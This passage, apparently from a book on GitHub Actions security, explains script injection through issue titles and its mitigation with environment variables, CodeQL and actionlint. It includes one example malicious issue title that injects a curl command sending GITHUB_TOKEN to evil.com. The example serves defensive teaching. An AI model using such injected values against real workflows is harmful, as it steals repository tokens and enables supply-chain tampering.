 A malicious user can use these inputs to inject syntax that can result in the exploitation of your workflow. To give you a simple example, consider the following part of a workflow:

```yml
- run: echo "${{ github.event.issue.title }}"
```

Now, consider a user putting the following text in the title of the issue:

```yml
a"; set +e; curl http://evil.com?token=$GITHUB_TOKEN;#
```

This can result in your workflow handing over the `GITHUB_TOKEN` that has write rights in the repo to a location on the web: evil.com. The token is valid for the duration of the workflow, and the `curl` command can be kept waiting for at least 30 seconds. That provides an attacker a window of attack to run GitHub commands using the token and push, for example, an update to your package configuration of the application and make it appear as a normal commit. This can result in a malicious package in your packaging chain that you won’t notice.

Context expressions are, by definition, dangerous when they use input from the aforementioned data points, controlled by users. The recommended approach for mitigating code and command injection vulnerabilities in GitHub workflows involves storing untrusted input as an intermediate environment variable. Here’s how you can implement this best practice:

```yml
- name: Print Title
  env:
    TITLE: ${{ github.event.issue.title }}
  run: echo "$TITLE"
```

This method involves capturing the value of `${{ github.event.issue.title }}` in a dedicated environment variable (`TITLE`). By doing so, the value is isolated in memory and used as a variable, rather than directly affecting the script generation. It is also a full string and, thus, will not be interpolated.

To detect and prevent the early usage of potentially harmful patterns in the development lifecycle, the GitHub Security Lab has created CodeQL queries that repository owners can seamlessly integrate into their CI/CD pipelines. In section 10.4.2, we will go into more detail on the use of CodeQL as a means to detect multiple issues not only in our workflows but also in used actions and even your own written source code.

You can also create an action workflow that contains an action called `actionlint` (see section 3.9). This action is a linter for your action workflows and will warn you when it finds these kinds of vulnerabilities toward shell injection attacks as described. The following listing shows what this workflow looks like, which can warn you of potential issues in your workflow.

**Listing 10.4 Action linting workflow to prevent known vulnerabilities**

```yml
on:
  pullrequest: 
jobs:
  run-actionlint:
    runs-on: ubuntu-latest
    permissions:
      # Needed for the checkout action
      contents: read
      # Needed to annotate the files in a pull request with comments
      pull-requests: write
    steps: 
    # Checkout the source code to analyze.
    - uses: actions/checkout@v3 
    # Runs the actionlinter, which will fail on errors
    - uses: devops-actions/actionlint@c0ee017f8abef55d843a647cd737b87a1976eb69
```
